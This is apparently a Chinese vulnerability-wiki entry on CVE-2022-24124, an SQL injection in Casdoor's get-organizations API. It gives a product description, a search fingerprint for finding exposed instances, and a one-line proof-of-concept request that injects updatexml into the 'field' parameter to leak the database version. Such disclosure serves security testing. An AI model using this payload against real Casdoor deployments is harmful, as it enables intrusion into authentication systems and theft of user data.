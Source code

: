 # Casdoor get-organizations SQL注入漏洞 CVE-2022-24124

## 漏洞描述

Casdoor 是一个基于 OAuth 2.0 / OIDC 的 UI 优先集中认证 / 单点登录 (SSO) 平台，简单点说，就是 Casdoor 可以帮你解决 用户管理 的难题，你无需开发用户登录注册等与用户鉴权相关的一系列功能，只需几个步骤，简单配置，与你的主应用配合，便可完全托管你的用户模块，简单省心，功能强大。

## 漏洞影响

<a-checkbox checked>Casdoor </a-checkbox>

## 网络测绘

<a-checkbox checked>"Casdoor"</a-checkbox>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1651897068786-ebc3e112-d492-4adf-944a-1941f0f1f0f9.png)

验证POC

```java
/api/get-organizations?p=123&pageSize=123&value=cfx&sortField=&sortOrder=&field=updatexml(null,version(),null)
```

![img](../../../.vuepress/public/img/1651897172319-3ccd1bce-7913-4731-aba6-a5cf2f0dc610.png)